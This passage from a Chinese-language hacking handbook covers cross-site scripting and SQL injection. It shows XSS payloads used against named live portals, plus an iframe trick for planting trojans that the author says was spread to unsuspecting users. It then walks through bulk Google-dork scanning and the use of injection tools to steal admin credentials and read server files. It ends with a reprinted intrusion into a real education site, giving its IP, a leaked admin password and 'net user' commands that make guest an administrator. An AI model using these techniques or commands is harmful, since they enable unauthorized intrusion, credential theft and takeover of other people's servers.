哈哈，得来全不费功夫。超链接为 `<a href=...>...</a>` 的语法格式，可以发现，超链接 href 的值为 `mailto:`，这里面的 `` 是我们原原本本输入的内容，没有任何的改变。既然没有改变，我们只要想办法将前面的 `<a` 和 “mailto” 引号闭合，后面的脚本代码就可以起作用了。闭合从内到外一个一个地来，首先是 “mailto:”，需要加个双引号闭合 mailto 前的双引号；然后是 `<a`，需要有个大于号 `>` 来闭合；最后超链接还需要一个结束标志 `</a>`，后面就可以接我们的 script 代码了。

合起来，就应该构造输入如下：`"></a>`。再解释一下这样输入的原因：第一个引号 `"` 闭合 “mailto” 的左引号；然后 `>` 闭合 `<a`；而 `</a>` 闭合 `<a href="mailto:">` 这个超链接。后面的 `` 就是我们要执行的 script 代码了。好，使用新构造的数据更改用户信息中的 Email，保存后再查看用户信息页面，啪，弹出了我们想要的 script 对话框，跨站漏洞发掘成功，如图 2-78 所示！


图 2-78 跨站代码被执行

在这里，即使不使用 `</a>` 闭合超链接标志 `<a>`，也可以成功，即只用输入 `">`，也会成功弹出对话框，如图 2-79 所示。


图 2-79 跨站代码又执行了

只不过 Email 的显示还是超级链接的形式而已，但这不妨碍跨站的使用，还可以减少占用的字数，这往往是能否成功利用跨站漏洞的关键。发掘出跨站漏洞以后，可以做很多事情，前面说过，凡是在浏览器安全控制策略范围内的操作，都可以成功。所以，跨站的利用“只有想不到，没有做不到”。基于源码的漏洞分析和漏洞利用的思路，以后有机会我们再进一步讨论吧。

编辑点评：很系统的一篇跨站文章，从理论到实例分析一应俱全，小菜们是否学会了跨站的挖掘方法呢？但是要想成为跨站高手，是一定要通 js 脚本的。

## 2.5.2 163、sina、sohu 也玩跨站

##### 一、163 之行

某日看见一篇写到 XX 联盟上有跨站的文章，偶于是有了个想法，去看看那些门户网站有没有跨站的漏洞。我比较喜欢 163，一进去就去看看新闻。一不小心发现了新闻评论的地方，随手在评论的地方输入一个字母，按下提交，页面就转到了 `http://comment.*****.163.com/error.jsp?msg=%C4%DA%C8%DD%CC%AB%B6%CC%A3%AC%D6%C1%C9%D94+%B8%F6%CE%C4%D7%D6`，提示错误：内容太短，至少 4 个文字。有希望了，把地址改成 `http://comment.*****.163.com/error.jsp?msg=<script>alert('by 非零解');</script>`，呵呵，这时候弹出一个窗口，如图 2-80 所示，跨站成功！


图 2-80 跨站成功

我有个朋友要买手机，他叫我随便在网上帮他查一下价格。既然来啦，就去手机频道看看，手机还没看好，却看见了又一个发表评论的地方。又在评论处发表一个字母，网页转到另一个页面：

```text
http://comment.*****.163.com/error.jsp?msg=%C4%DA%C8%DD%CC%AB%B6%CC%A3%AC%D6%C1%C9%D9+4+%B8%F6%CE%C4%D7%D6,
```

```html
<script>alert('by 非零解');</script>
```

提示错误：内容太短，至少 4 个文字。没办法，想不跨站就不行啊。在 `http://comment.*****.163.com/error.jsp?msg=` 后面再加上 `<script>alert('by 非零解');</script>`，成功跨站。后来发现 163 下面的很多分站的评论地方都有跨站的地方，就不一一地说出来了！

##### 二、新浪跨站

首先进入我眼线的是世界杯，看了两则最新的新闻后，就想到 163 里面的跨站，发评论。发一个字母，一般的情况下，为了避免灌水都要提示错误的，晕，它直接显示出来了。那我直接在评论地址上加：

```html
<script>alert('by 非零解');</script>
```

```text
http://comment.*****.sina.com.cn/comment/error.html?auto_refresh=0&msg=
```

参数错误，难道它过滤了吗？再试一下呢？我在网址中的后面改成 `<script>alert('by 非零解');</script>` 提交，弹出了一个窗口，如图 2-81 所示，跨站成功了！同样像 163 那样，sina 的很多有评论的地方也能跨站。


图 2-81 跨站成功

### 三、Sohu，发现另类挂马

在 sohu 里找跨站实在是不好找，找了半天发现一个关于订阅 RSS 的页面：`http://tb.sogou.com/rss?ch=it`。把网址 `it` 的内容替换成 `<script>alert('test');</script>`，好像页面没有发生变化。查看源码看到：`<iframe c="http://tb.<script>alert('test');</script>.sohu.com/rss-channel.html" scrolling="no" frameborder="0" height="0" width="0"></iframe>`

原来 `<script>alert('test');</script>` 被 iframe 当作网址的一部分使用了。如果把 iframe 标签闭合呢？提交 `http://tb.sogou.com/rss?ch="></iframe><script>alert('test');</script><`，弹出 test 的窗口，跨站成功，如图 2-82。


图 2-82 跨站成功

既然是把 ch 后面的内容作为框架把 `http://tb.***.sohu.com/rss-channel.html` 的页面嵌入到此页面中。那么是不是可以把一个 `http://tb.com` 的网站内嵌进去呢？提交：`http://tb.sogou.com/rss?ch=com">`，如图 2-83 所示，`http://tb.com` 被内嵌到下载的页面上方。呵呵，这样很明显了，可以挂马。


图 2-83 发现挂马

假如 `tb.com` 的网站里面放着网页木马，或者有一个二级域名 `tb.***.***` 的网站的话，就可以把网址发给别人，一般看见是 `sohu` 的网址都不会怀疑里面有木马。

我测试过，把 `http://tb.sogou.com/rss?ch="/></iframe><script>alert('test');</script>` 发在 qq 群上说 sohu 有跨站，大家快去看看。点击率还是比较高的，而且大部分人并没有察觉什么不对劲的地方，因为他们成功看到了跨站，嘿嘿！

> 编辑点评：在 URL 里跨站是比较容易的，毕竟 IE 地址栏本身就带有执行 js 命令的功能，如：`javascript:alert(document.lastModified)`。但是 sohu 的最后一个跨站构思还是很巧妙的。

#### 2.5.3 再次挖掘中国博客网之跨站漏洞

##### 一、引言

中国博客网是目前国内一家非常大的博客提供站点，提供的博客服务也非常完善，所以我自己的博客也是采用他们的。在很早之前我就发现了他们的一个跨站漏洞，因为当时比较忙，没多少时间去测试另外的漏洞，所以就给中国博客网的客服部发了一封邮件就了事了。再之后我就把这件事给忘了。但是在浏览上期杂志的时候突然发现有人写了这个漏洞，当时我非常气愤，那个漏洞居然还没有补上。于是我决定再次测试其安全性。中国博客网提供几种博客服务，如情侣博客、个人博客、企业博客等等，因为本人使用的是个人博客，所以就用个人博客来作为测试对象。

##### 二、挖掘

博客对每篇日志都提供评论的功能，用户只要主页、留言、认证码就可以了。如果在没有登录的情况下，昵称是由“访客”加上一个六位数随机函数提供的一个名称，图 2-84 所示。虽然是由系统提供的昵称，但是却可以随便修改。在所有的输入框中输入 `<zyh>`，图 2-85 所示。利用这个技巧可以很快确定是否存在跨站漏洞。至于中间的 zyh，是偶名字开头的三个字母，可以随便修改。我们来看看返回客户端的代码：

```html
.............省略代码
<a href="&lt;zyh&gt;" class="x-blue" target="_blank"><zyh>(访客)</a>
</span>-&nbsp;2006-11-11 9:44:32</td>
<td width="60">
</td>
<td width="60"></td>
</tr>
</tbody>
</table>
<TABLE width="98%" border="0" align="center" cellPadding="0" cellSpacing="0" class="margin-top" id="Table14">
<TBODY>
<TR>
<TD style="word-break:break-all">
&lt;zyh&gt;
</TD>
</TR>
.............省略代码
```

可以看到在第二个 zyh 中没有过滤 `<` 和 `>`，即昵称处没有过滤参数。那么就可以用来跨站了，如图 2-86 和图 2-87 所示。


图 2-84


图 2-85


图 2-86


图 2-87

对于日志提供了一个类别分类功能，不同的文章可以划分到不同类别中。在后台中可以自己添加不同的类别。但是类别名处我们可以输入任何数据，如图 2-88 所示。在添加类别后就会生成分类代码，如图 2-89 所示，下面就是在我输入 `<script>alert(类别管理跨站)</script>` 后的部分代码：```html
<table width="100%" align="center">
<tr>
    <td align="left">
        <a href="index.html">首页</a>
    </td>
</tr>
<tr>
    <td align="left">
        <a href="index.html?tp=<script>alert(类别管理跨站)</script>">类别管理跨站</a>
    </td>
</tr>
<tr>
    <td align="left">
        <a href="index.html?tp=<script>alert(hah)</script>">jhj</a>
    </td>
</tr>
</table>


```

我们的跨站代码没有得到转换，不过被屏蔽了，所以要避开那些标签的封锁，所以把原来的跨站代码改为 `><script>alert(类别管理跨站)</script><a` 就可以绕过封锁了，如图 2-90 所示，就可以实现跨站。
图 2-88
图 2-89
图 2-90

博客提供一个网摘的功能，可以在后台自己编辑网摘。如图 2-91 所示，我在地址、标题、描述、TAGS 上都输入图片跨站代码，提交后就可实现跨站了，如图 2-92 所示。
图 2-91
图 2-92

在我们申请博客时要求填写博客的标题，如图 2-93 所示，还可以后台修改博客自己的标题。我这里用的是申请时的标题，在标题中输入跨站代码，那么在每次打开博客时都会出现跨站效果，如图 2-94 所示。
图 2-93
图 2-94

中国博客网的功能确实比较丰富，比如对于博客的首页，用户可以自己修改，而且提供可视化编辑、代码编辑、选择模块三种方式。对于代码编辑就是把首页的代码全部显示出来，如图 2-95 所示。而且用户可以自己修改任何代码。这可是一个在安全上比较大的隐患。比如在代码中间我插入代码 `<iframe frameborder=0 width=300 height=300 scrolling=no src=http://www.baidu.com></iframe>`，那么就可以实现挂马了，如图 2-96 所示。
图 2-95
图 2-96

在图 2-95 中我们还可以看到有一个音乐盒子的功能，即在首页中增加音乐的功能。我们可以在后台添加音乐，如图 2-97 所示。提交后就可实现跨站了，如图 2-98 所示，而且这个跨站最有意思。我们在添加跨站音乐后，那么只要有人打开我们的博客，音乐就会运行。而这个时候的音乐是跨站，所以只要打开首页就会出现跨站的死循环，关闭跨站后又弹出来，出现跨站死循环。
图 2-97
图 2-98

博客提供三种友情链接方式，文字链接、图片链接、LOGO，如图 2-99 所示。而且这三种方式都存在跨站漏洞。不过这里需要绕过一些标签，这里用文字链接作为例子来说明。下面是输入 `<链接>` 后返回的代码：

```html
<td align="center" width="8%"><strong>No.1</strong></td>
<td class="main_bg"><a href="<链接>" target="_blank">&lt;链接&gt;</a>
<a href="/createfiles/bookmark_editNew.asp?id=11235691">[编辑]</a> <a href="/createfiles/bookmark_delNew.asp?id=11235691&d_tp=2">[删除]</a>
.............省略代码
<tr><td align="center" width="8%"><strong>No.1</strong></td>
<td class="main_bg"><a href="<链接>" target="_blank">
" border="0" alt="<链接>"></a>


```

可以看到只有一个地方把 `<` 和 `>` 进行了转换，其他的地方都没有转换，只是被标签给封住了。比如第一个链接可以输入 `<script>alert("链接跨站")</script><` 来绕过，就可实现跨站了，如图 2-100 所示。
图 2-99
图 2-100

##### 三、总结

对于中国博客网，我的印象一直是非常优秀的，不然我也不会用他们的博客，同时欢迎大家访问我的博客，地址是：http://zengyunhao0.blogcn.com。通过这次挖掘，我没想到他们的系统居然存在那么多的问题，安全性如此脆弱。对于跨站我们还可以做很多事情，如偷 COOKIES、挂马等等。如果当初他们重视我的邮件的话，也许今天就不会出现如此多的问题了，看来国内计算机从事人员的安全意识还是有待提高。

### 2.6 注入漏洞

在我们这么多的脚本黑客技术中，注入是最主要的攻击技术之一，是目前最为活跃的攻击手段。很多朋友对注入的定义应该还不是太熟悉，下面引用来自官方对注入漏洞的定义：当应用程序使用输入内容来构造动态 SQL 语句以访问数据库的时候，就会发生 SQL 注入攻击。如果代码使用存储过程，而这些存储过程作为包含未筛选用户输入的字符串来传递，也会发生 SQL 注入攻击。SQL 可能导致攻击者能够使用应用程序登录，并在数据库中执行命令。如果应用程序使用过高权限的账户连接到数据库，这种问题会变得很严重。上面官方的解释比较书面化，SQL 注入漏洞发生的前提就是我们能够构造 SQL 语句来访问数据库，也就是说要有数据与数据库交互的地方才可能会发生 SQL 注入攻击，而这里的这个数据就是我们提交的数据。而存储过程说白了是一些数据库语句，能够完成一些特定功能，对于存储过程的更多内容在第五章会有非常详细的解释。

目前引起 SQL 注入的主要原因是程序员在编写网站脚本程序的时候，对特殊字符没有过滤或者过滤不完全而导致的。因为一个脚本系统的文件是比较多的，而且代码量也非常大，所以系统开发人员不可能对每一个文件中的数据交互地方都考虑得非常周全，这样我们就有了可乘之机了。再加上注入攻击比较容易上手，而且目前注入工具也非常多，使得注入攻击一下就成为脚本攻击的主流方向。

而有一点大家一定要知道：SQL 注入漏洞的产生虽然是由于程序过滤不严格导致的，但是要实现这个漏洞的攻击，是与我们系统后台所使用的数据库有关。也就是说数据库才是影响我们注入攻击的最大因素，不同的数据库所面对的注入攻击也是不同的，而与系统所使用的语言并无很大联系。所以在手工注入的过程中，我就以不同的数据库来分 SQL 注入了。

上面简单地对注入解释了一下，下面开始我们的注入攻击之旅吧！这里我把注入分为两个部分：一是工具篇，主要是讲解不同注入工具的使用；二是手工篇，因为影响 SQL 注入攻击结果的主要是数据库类型，所以这里我从数据库角度来分，把手工篇分成了 ACCESS、SQL Server（MSSQL）和 MySQL 这三类。

#### 2.6.1 工具篇

由于注入攻击成为脚本黑客技术下的主流，所以很多注入工具也就很快出现了，而且那些工具越来越傻瓜化，特别适合一些刚刚入门的菜鸟朋友。注入攻击的工具目前比较多。在 ASP 下我给大家推荐的是小竹的 NBSI、啊 D、明小子的 Domain，它们是在 ASP 下非常好的注入工具；而在 PHP 下比较好的工具有 PHP-Mysql 注射分析器、CASI、教主的 HDSI，而且 HDSI 还支持 ASP 注入功能，它是 ASP/PHP 注入综合工具。在本节中从 ASP 和 PHP 两个角度来给大家讲解这些注入工具的使用方法。

- 1. ASP 下的注入工具的使用

下面我就以啊 D 和 Domain 来讲解如何使用它们在 ASP 环境下注入，之所以选它们两个是要它们相互配合，从我本来的经验来看，它们两者的结合使用是不会差于任何注入工具的。

我们先来看看啊 D 和 Domain 3.5 的主界面吧，如图 2-101 和图 2-102 所示。
图 2-101　啊 D 主界面
图 2-102　Domain 的主界面

要注入的第一步就是首先得到网站存在 SQL 注入的网址。如果我们并不是要专门去渗透某一个网站，也就是没有目的的入侵，那么就可以使用 Google Hack 技术来批量取得存在注入的网站，我们可以先在 Google 里输入 `inurl:asp?id=` 这样类似的代码搜索 ASP 网站。我们分别用啊 D 和 Domain 来说说这两种方法。对于啊 D，我们先点击主界面的“扫描注入点”，然后在“检测网址”里输入 `http://www.google.com`，而要打开其他检测站点也是一样，只需要把网址改一下就可以了。然后在 Google 里输入“inurl:asp?id=”搜索后，啊 D 就会自动检测搜索出来的网址是否存在注入漏洞了。而用 Domain 则是先点击主界面上的“旁注检测”，然后在“当前路径”中输入 `http://www.google.com`，而要打开其他检测站点也是一样，只需要把网址改一下就可以了。然后在里面输入“inurl:asp?id=”后搜索，Domain 也会自动检测网页中存在注入的网址。如图 2-103 和图 2-104 所示，我这里只用 Google 搜索了四个页面就发现它们检测的结果不一样，啊 D 检测的比 Domain 要多。而且 Domain 这里有一个不好的地方，就是我们这里已经发现了注入点，而当我们再点击搜索的下一页时，原来的那个注入网址就会被清除，而啊 D 会保留，这一点可以让我们收集存储注入漏洞网站时非常方便。
图 2-103　啊 D 检测到的注入漏洞站点
图 2-104　Domain 检测到的注入站点

上面我们讲的是在没有目的的情况下随便注入的，假设我们现在要对某一个特定站点进行注入攻击，那么第一步还是查找存在注入的网址。我们还是可以用 Google Hack 来帮忙的，我们只要输入“site:站点网址 inurl:asp?id=”就可以搜索出特定站点中含有 asp?id 的网站了。这里我们还来测试一下它们两个工具对特定站点的注入漏洞扫描能力，我们用图 2-103 中啊 D 扫描到的 `http://zsb.jmu.edu.cn/2j.asp?id=24` 为例子。我们在 Google 中输入“site:jmu.edu.cn inurl:asp?id=”，这里我就搜索了 5 个网页，如图 2-105 和图 2-106 所示，从图中我们可以清楚地看到，搜索了五个网页后，啊 D 搜索到 5 个网址；而 Domain 一个也没有搜索到。而检测到有注入的网址后，我们只需双击一下那个网址就会自动跳到注入的页面上去。
图 2-105　啊 D 对特定网站搜索到结果
图 2-106　Domain 对特定站点搜索到的结果

通过上面在相同情况下的对比，不管是无目的的撒网式注入漏洞搜索，还是对特定站点注入漏洞的搜索，啊 D 都是要胜于 Domain 的。如果用工具进行注入的话，我个人强烈建议使用 Google Hack+啊 D 组合。通过上面的学习和对比，我想大家已经学会如何寻找网站的注入漏洞了吧。

有了注入的网址之后我们就要对该网站进行注入攻击了。我们可以直接双击搜索到的存在注入网址。在啊 D 下我们也可以直接点击主界面上的“SQL 注入检测”按钮，然后在“注入连接”中输入我们需要注入的网址；而对于 Domain，我们可以点击主界面菜单中的“SQL 注入”，之后再点击“SQL 注入猜解检测”按钮，最后在“注入点”处输入需要注入的网址，点击“开始检测”按钮就可以开始猜解了。

当我们点击检测按钮之后，啊 D 和 Domain 都是首先猜解数据库类型。从前面我们知道对于 ASP 来说，它们的组合几乎全部是 ASP+ACCESS 和 ASP+MSSQL。所以啊 D 和 Domain 都只提供了 ACCESS 和 MSSQL 两种数据库类型的猜解，如果某个网站采用 ASP+MYSQL 组合的话，那用工具没办法检测，不过这样的情况非常少，至少我没有见过哪个网站会采用这样的组合来搭建网站。虽然它们两个工具都只提供两种数据库的检测，不过显然啊 D 提供的功能多一些，如图 2-107 和图 2-108 所示。啊 D 还提供连接类型，Domain 没有提供。
图 2-107 啊 D 检测数据库
图 2-108 Domain 检测数据库

检测数据库成功之后就是要猜解数据库的表名了，在啊 D 下我们只需点击“检测表段”按钮即可；而在 Domain 则是点击“猜解表名”按钮即可。这里啊 D 还多了一个功能，就是如果检测到是 MSSQL 数据库，那么就按下面的“MSSQL 专用表段检测”，如果检测到是 MSSQL 那么我们就可以使用它来猜解了，如图 2-109 所示。对于 Domain，这里增加表名很简单，只需要点击添加按钮即可，如图 2-110 所示。当然啊 D 也是可以添加，不过稍微麻烦一点，需要点击左边的“设置选项”按钮之后再点“设置”按钮就可以进行相关添加了，如图 2-111 所示。
图 2-109 啊 D 的猜解表名
图 2-110 Domain 的猜解表名
图 2-111 啊 D 对一些设置的添加和删除

猜解完表名之后就是检测这个表中存在的字段了。在啊 D 下我们点击“检测字段”按钮，而在 Domain 下我们点击“猜解列名”即可。猜解完了之后就是要猜解字段的内容，不过一般来说一个表中的字段比较多，有的我们并不需要，我们只需要选一些猜解就可以了。啊 D 和 Domain 都提供了选择猜解字段的功能，如图 2-112 所示。在猜解内容之前需要选择需要猜解的内容，如果要猜解哪个字段，只需要把其前面的复选框选上就可以了。在图 2-112 中，我只选择 adminname 和 adminpass 两个字段，而 id 字段的内容没有必要猜解，我们需要的是管理员的名字和密码。
图 2-112 选择需要猜解的内容

我们选择了需要猜解的内容之后，对于啊 D 我们点击“检测内容”按钮就可以对内容进行猜解了，Domain 则点击“猜解内容”按钮即可。这两个工具对猜解的内容都提供了比较详细的显示。

在猜解网站后台数据库中信息的时候，它们的猜解能力还是有一些差别的，经过我长期使用和比较发现 Domain 的猜解能力要比啊 D 强，如图 2-113 和图 2-114 就是对上面那个网站猜解的结果。啊 D 没有把管理员的名称猜解出来，而 Domain 猜出来了；而且在猜解速度方面 Domain 还要快一些。所以建议在猜解后台数据库信息的时候用 Domain 来猜解。
图 2-113 啊 D 对网站管理员密码的猜解结果
图 2-114 Domain 对网站后台管理员密码的猜解结果

有了网站管理员的密码，当然下一步是要得到网站的后台地址了。在前面我们已经多次提到了利用 Google Hack 来找网站后台，这里就不多讲了。啊 D 和 Domain 都提供了网站后台查找的功能。啊 D 的后台只需要点击主菜单下的“管理入口检测”按钮，然后把需要检测的网站后台填入即可了，如图 2-115。而对于 Domain 则在“SQL 注入”菜单下点击“管理入口扫描”即可，如图 2-116 所示。这两个工具对后台的检测都是通过添加后台地址来进行的，所以基本上这个功能它们是一样的，没什么区别。

图 2-115 啊D对后台的检测

图 2-116 Domain对后台的检测

通过上面的讲解，我想大家对注入的基本步骤和两种注入工具的基本使用方法都已经有了初步的认识了，相信也知道怎么去查找网站的注入漏洞并进行注入了。在得到网站的密码和后台后，就是登录网站后台了，那么这个时候网站就被你控制了。当然大多数的情况下我们并不满足于这样的情况，很多时候还利用各种方法和技术来得到 webshell，不过这些方法和技巧在后面我会给大家讲解。这里的学习目的是要让大家对注入攻击有初步的认识。如果大家仔细看 2-114 就会发现，上面我们演示的是 ACCESS 数据库的注入攻击。其实在注入攻击中最好玩的还要算是 MSSQL 注入了。跟 ACCESS 数据库一样，MSSQL 数据库的注入也是先经过注入工具的“扫描——检测”后再去读取数据库中的信息，但是对于 MSSQL 注入而言，这显然没什么诱惑力，因为 MSSQL 的注入还可以做很多事情。

如果网站的后台数据库是 MSSQL 而又存在注入的话，注入工具一般都会显示如图 2-117 这样的结果，因为 MSSQL 比 ACCESS 强大得很多，这点在第一章就给大家讲得很清楚了。在图 2-117 可以看到 ACCESS 数据库与 MSSQL 数据库返回结果的不同。在 MSSQL 中写出了当前的数据库名、连接账号及权限等信息。如果是 MSSQL 数据库，那对于数据库方面的操作我给大家推荐 NBSI2 这个工具来入侵。这里我检测到了一个网站是具有 SA（System Administrator）权限，比系统管理员权限还大，所以到这一步我们根本就不用去扫描网站后台管理员的密码了，因为有更好玩的了。如果遇到了一台 SA 权限且它为空口令或为弱口令的服务器，那么我们可以利用 SQL 连接器连接该服务器，如图 2-118 所示。我们填上服务器的 IP，用户名 SA，密码为空，点击连接就可以连接上去了。接下来就是利用 DOS 命令添加管理员了，然后再开一个 3389 或者 telnet，最后就是登录远程主机了，那么我们就得到了一台肉鸡了。

图 2-117 MSSQL 数据库信息

图 2-118 SQL 连接器连接

如果没有弱口令怎么办呢？我们还可以用 NBSI2 自带的一个功能来执行我们的命令。目前要遇到一个存在空口令的 MSSQL 还是很常见，大多数都是需要密码的。如果用 NBSI2 扫描到了当前数据库用户是具有 SA 权限的，这个时候我们可以用 Nbcommander 命令执行器来执行命令。

选择“扫描及工具”→“Nbcommander 命令执行器”，之后我们就进入了 Nbcommander 命令执行器的界面了，如图 2-119 所示。在“注入地址”中输入注入点连接，并选择注入类型，然后选上“尝试回显结果”和“执行 DOS 命令”，并在“命令”中输入执行的系统命令。比如这里我要看服务器开启了什么系统服务，就输入“netstat -an”，点“执行”就可以看到服务器上的服务了。在里面我们可以执行很多 DOS 命令，如果很多入门的朋友不懂 DOS 命令也没有关系，NBSI2 已经为你们想到了这一点。当我们点击“执行 DOS 命令”的时候就会弹出一个小页面，上面有一些简单的 DOS 命令，如图 2-120 所示。dir 命令就是遍历磁盘下所有的文件和文件夹，比如 `dir c:\` 就是遍历 C 盘下所有的文件和文件夹。对于更多的 DOS 命令我这里就不多讲了，更多更详细的 DOS 请看光盘中已经为大家收录的 DOS 命令方面电子书。当然我们还可以点击“SQL语句”，同样会弹出常用的 SQL 命令了，如图 2-121 所示。上面的语句是 MSSQL 的一些存储过程，在后面会详细给大家介绍。

图 2-119 Nbcommander 命令执行器

图 2-120 DOS 常用命令

图 2-121 常用的 SQL 命令

上面我们说的是在 SA 权限下，如果遇到一台不是 SA 权限的机器，也没有什么很大的关系，只要它的权限在 Public 以上，我们就能够遍历服务器上的文件了。这个时候，我们要请出 NBSI2 的另外一个实用工具“NBTreelist”了，这是从“扫描工具”中打开“NBTreelist”，如图 2-122 所示。

图 2-122 NBTreelist

把右边的“文件”和“文件夹”都选上，然后在“输入路径”中输入要查看的磁盘路径。点击列目录，过一下就可以看到服务器上的目录，我们可以查看服务器上安装了什么软件、数据库在哪里等信息，这些有时候对我们得到 webshell 和提升权限非常有用。工具的介绍就介绍到这里了，下面引用由 elin 写的《入侵江苏互联星空教育频道》文章，让大家更加明白如何利用工具，增加大家的实践经验。

##### 入侵江苏互联星空教育频道

本人是一名教师，在工作之余常去一些教育网站看一看。装了宽带以后，当然要去看看互联星空了，里面有个教育频道我自然是要去的。这一去，就发现了问题，获得了主机权限。教育频道的地址是 http://education.js.chinavnet.com/，出问题的是里面的“精英教育”版块 http://jyedu.js.chinavnet.com/，如图 2-123 所示。

图 2-123 存在注入版块

用啊D注入工具扫描了一下，发现了该站存在注入点：http://jyedu.js.chinavnet.com/teac/teac.aspx?TEAC_ID=147，如图 2-124 所示。

图 2-124 发现注入点

于是进行注入检测，分析得到的数据库类型为“Access 或其它数据库”，如图 2-125 所示。

图 2-125 网站后台数据库为 ACCESS

检测字段，没有找到，也无法进行其它功能的运用，如图 2-126 所示。

图 2-126 不能执行其他功能

感觉这样的大网站不应该用的是 Access 数据库，工具应该是识别错误了，于是换用著名的 NBSI 工具进行注入分析，如图 2-127 所示，得到了真实的情况：是用了 SQL Server 数据库，当前库是 BMUCP_EDU_XKTC，还是 SA 权限。用 NBSI 的 NB Commander 和 Treelist 工具试试命令和目录显示，没有成功。猜解得管理员账号和密码共有 5 组，其中账号：ahong2008，密码：!!@@##% 的一组 ID 最靠前，应该有最大的权限。

图 2-127 利用 NBSI 发现为 SQL Server 数据库

下面去找后台登录，用工具都没找到，但提示 admin 目录是存在的，也就是说目录是对的，但文件名不确定，手动也试了几个。因它用的是 ASP.NET 写的，所以是 aspx 文件，怪不得工具都没找到。最后找到了是 admin/login.aspx，用刚才得到的账号和密码试登录，OK。如图 2-128 和图 2-129 所示。

图 2-128 找到网站后台

图 2-129 登录网站后台

看了一下，后台没有什么可以利用的。怎么来得到 webshell 以及主机权限呢？思考了一下，刚才不是有 SA 权限吗，何不直接连接 SQL 数据库试试能不能运行命令，密码就用这“!!@@##%”来试试（我想管理员有可能会用同一个密码吧）。通过 ping 得到 IP 地址为：61.155.9.205。下面我们来连接：服务器名称/IP：61.155.9.205，用户名：SA，密码：!!@@##%，数据库名称：BMUCP_EDU_XKTC，连接成功。如图 2-130 所示。

图 2-130 利用弱口令连接 SQL Server 数据库

利用该工具，发现可以执行任意命令，于是执行以下命令激活 guest 用户并加入 administrators 组。

```bash
Net user guest /active    （激活 guest 用户）
Net user guest guest      （将 guest 用户密码设为 guest）
Net localgroup administrators guest /add    （将 guest 用户加入 administrators 组）


```

用 `Net localgroup administrators` 检查，guest 已经成功加入。如图 2-131 所示。

图 2-131 执行命令添加管理员

现在我们就可以用 guest 这一管理员账户来登录这台服务器了，此前我已扫描过，服务器是开着 3389 终端服务的，成功。如图 2-132 所示。

图 2-132 远程登录到主机

到此，已经得到最高权限，做什么都可以了。这么大的网站，不敢乱动，下面的事就是清理痕迹，写封信给管理员，走人。

总结一下，这次入侵没什么新的技术，还带点运气的色彩。

- 不要轻信某一个工具，工具也会有出错的时候，利用几个工具配合使用，发挥各自长处，往往能做得更好；
- 一般管理员可能在很多地方使用同一个密码，往往在比较薄弱的地方获得以后，一通百通，这就是社会工程学的运用吧。

## 2. PHP 下的注入工具的使用

下面给大家介绍 PHP 环境下的注入工具的使用，因为我个人比较喜欢 CASI，所以这里用 CASI 来作为例子说明。首先我们打开 HDSI 的主页面，如图 1-133 所示。

图 1-133 CASI 的主界面

在目前全世界的 PHP 网站中，几乎全部是 PHP+MySQL 组合，所以 PHP 注入工具在对 MySQL 数据库的检测、入侵方面做得很好，其他数据库并不太支持，不过也没必要。至少从我的经验来说没有必要，因为没看到过哪个网站是 PHP+MSSQL 的组合。我们来看看 CASI 的主界面：注射 URL 就是我们要进行注入攻击的网站 URL 地址。判断字符一般我们按照默认就可以了，不需要动。程序信息就是进行注入攻击时显示的信息，如提交的数据等等。软件登录则是用于会员登录的，一般我们用不到，因为不是会员也不会有功能限制。

下面我们来利用这个工具进行入侵一下网站看看。这里我通过 Google 黑客找到了 `http://training2.cyol.com/expert/teacher.php?id=882`，它存在注入漏洞。我们把这个 URL 放入到注射 URL 中，点击字段扫描，这个时候 CASI 就会弹出更大的页面，如图 2-134 所示。

图 2-134 用 CASI 注射时的界面

在“程序信息”中，显示的都是我们在进行注射时的注射代码，每一个步骤的代码都可以看到，所以“程序信息”里返回的数据可以非常方便我们进行手工注入的学习。

图中还有一个“暴代码”的功能，它利用的是一个叫 `load_file()` 的函数读取我们服务端文件的源代码，在后面讲手工注入的时候会向大家提及。用工具时，我们先要填上 loadfile 的插入位置，其实就是一些数字。而目标文件 path 就是我们要读取的文件了，比如默认是 `D:\starkun\down\include\config.inc.php`，那么当我们点击“确定”按钮时，就会读取这个文件的内容。一般这个功能最常用的就是读取网站或服务器配置文件，因为里面有很多的敏感信息。例如用 Linux 做服务器时，我们提交 `/etc/passwd` 的话，那么就可以读取到该 Linux 服务器下的所有密码文件，当然前提是我们现在进行注射时的权限有那么大了。通过改变目标文件 path 我们可以读取不同的文件，从而得到大量的敏感信息。

通过前面的“字段扫描”，如果顺利的话，我们可以得到网站后台数据库的字段数，同时还有字段名、表名，我们的字段名可以在网页返回的页面中找到。字段扫描成功的话，我们就可以得到字段名、表名。接下来就是要暴管理员的密码，我们填上所得到的字段名、表名及其插入位置，不过这个位置的填写要注意的是不能超过这个数据库的字段数。顺利的话，可以从浏览 URL 中返回的页面里看到管理员的密码，非常方便，比 ASP 下的注入快多了。至于浏览返回 URL 页面，CASI 提供了四种选择：停止、刷新、后退、前进。

CASI 还提供了一个工具箱，我们先来看看“后台扫描”功能，当我们点击时就会自动扫描我们正在注入的网站后台，如图 2-135 所示。

图 2-135 找到网站的后台地址

Whois 查询是根据我们当前所注入的网站 IP 地址，然后到网站 `http://whois.webhosting.info` 上去查询，看这个 IP 地址上是否还存在其他网站。因为毕竟现在大部分网站都是采用虚拟主机，一个 IP 地址有很多网站。如果存在很多网站的话，我们还可以采用旁注来进行攻击。

前面我就提了 PHP 网站的后台数据库绝大多数是 MySQL，所以 CASI 提供了一个 MySQL 数据库连接器，如图 2-136 所示。

图 2-136 MySQL 数据库连接器

前面我们得到了用户名和密码，数据库名也知道了，再填上主机名及端口就可以连接上后台数据库了。如果网站采用的是与数据库分离的话，那么我们可以通过读取网站中数据库的连接文件，从那里得到数据库服务器的 IP 地址或主机名。还有在连接的时候最好把“使用压缩”选上，利于数据传输，防止因数据过大导致服务器死机。

上面就是 CASI 的使用方法了，通过上面的讲解是否觉得已经很简单了呢？利用它来入侵网站基本上都是自动的，我们需要填写的就是字段名、数据库名、读取文件 path、插入字段这些了。如果顺利，几分钟就可以搞定一个网站。其他的 PHP 注射工具我就不再讲了，它们的使用方法大致上都是一样的。

至于 JSP 为什么不讲它的工具使用呢，主要的原因是目前国内还没有专门为 JSP 而开发的注入工具，不过前面已经给大家介绍的 CASI 和 NBSI 都支持对 JSP 的注入，不过 NBSI 必须是 2.5 及以上版本才支持的，反正大家注入的时候用最新版本就是了。因为这两个工具在前面都已经介绍了，所以这里就不再重复。如果大家通过 and 1=1、and 1=2 发现一个 JSP 网站存在注入漏洞，那么就可以利用它们来进行注入攻击了，使用方法和前面所讲的是一样的。

#### 2.6.2 手工篇

